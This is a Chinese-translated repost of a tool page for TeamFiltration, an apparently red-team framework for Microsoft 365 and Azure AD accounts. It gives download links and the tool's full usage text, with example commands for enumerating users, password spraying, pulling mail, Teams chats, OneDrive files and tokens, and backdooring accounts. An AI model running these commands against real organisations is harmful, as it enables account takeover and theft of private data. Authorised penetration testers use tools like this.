

# TeamFiltration:用于枚举、喷洒、渗透和后门 O365 AAD 帐户的跨平台框架

> 原文：<https://kalilinuxtutorials.com/teamfiltration/>

[](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjKH5Y-PgHTtzZK_5Rdq3MwJ5vIogvPByaGlGgnmzBLcMteEdsSlzZvpDkIYKyHkqPij9YJzCUzjmaUvr7E-vnm9dRjXE-P1CWrYfE_Z2pjiduwOZa1Hrs2p7qtXxzxLLqcNYUHPUZ53iO9DYmz7qqGdeONp1tsquukRmHaZnd1EiAko5gi81xH0Hd_/s728/TeamFiltration.png)

**TeamFiltration** 是一个跨平台的框架，用于 O365 AAD 账号的枚举、喷、渗、后门。参见 [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration) wiki 页面了解 TeamFiltration 如何工作，以及[快速入门指南](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration#quick-start-guide)了解如何启动和运行！

这个工具从 2021 年 1 月开始在内部使用，并在 DefCON30 期间我的演讲“在云中装个哑巴”中公开发布。

## 下载

[您可以下载适用于 Linux、Windows 和 MacOSX X64 的最新预编译版本](https://github.com/Flangvik/TeamFiltration/releases/latest)

这些版本被预编译成一个依赖于应用程序的二进制文件。大小增加了，但是您不需要 DotNetCore 或任何其他依赖项来运行它们。

## 用法

```
[�] TeamFiltration V0.3.3.7 PUBLIC, created by @Flangvik @TrustedSec
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module  

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --cookie-dump         Override to target a given account using it's refresk-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit     Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens              Exfiltrate JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks recent Azure Active Directory password brute-forcing vuln for spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --seasons-only        Password generated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --combo               Path to a combolist of username:password
         --exclude              Path to a list of emails to exclude from spraying

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --delay               Delay in seconds between each individual authentication attempt. default=0
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Add burp as a proxy on 127.0.0.1:8080

   Examples:

        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --all 
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --aad  
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --database
```

[Click Here To Download](https://github.com/Flangvik/TeamFiltration)